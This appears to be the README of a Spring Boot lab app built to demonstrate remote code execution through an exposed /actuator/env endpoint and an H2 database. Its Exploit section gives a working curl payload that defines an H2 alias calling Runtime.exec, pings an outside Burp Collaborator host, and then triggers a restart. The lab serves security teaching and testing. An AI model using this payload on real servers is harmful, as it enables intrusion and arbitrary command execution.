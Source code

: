 # Spring Boot Actuator H2 RCE

## Introduction

Writeup: https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database

This is a sample app based off the default Spring Boot app in Spring's [documentation](https://spring.io/guides/gs/spring-boot-docker/) that demonstrates how an attacker can achieve RCE on an instance with an exposed `/actuator/env` endpoint and a H2 database.

## Usage

First, start the app. You can do this locally or with Docker.

### Local
If you run this locally, you need JDK 1.8 or later and Maven 3.2+.

`./mvnw package && java -jar target/gs-spring-boot-docker-0.1.0.jar`

### Docker

1. `sudo docker build -t spaceraccoon/spring-boot-rce-lab .`
2. `sudo docker run -p 8080:8080 -t spaceraccoon/spring-boot-rce-lab`

The app is now running on `localhost:8080`.

### Exploit

1. (Modify the curl request accordingly) `curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'curl  http://x.burpcollaborator.net\');\"}' 'http://localhost:8080/actuator/env'`
2. `curl -X 'POST' -H 'Content-Type: application/json' 'http://localhost:8080/actuator/restart'`

You will receive a pingback.
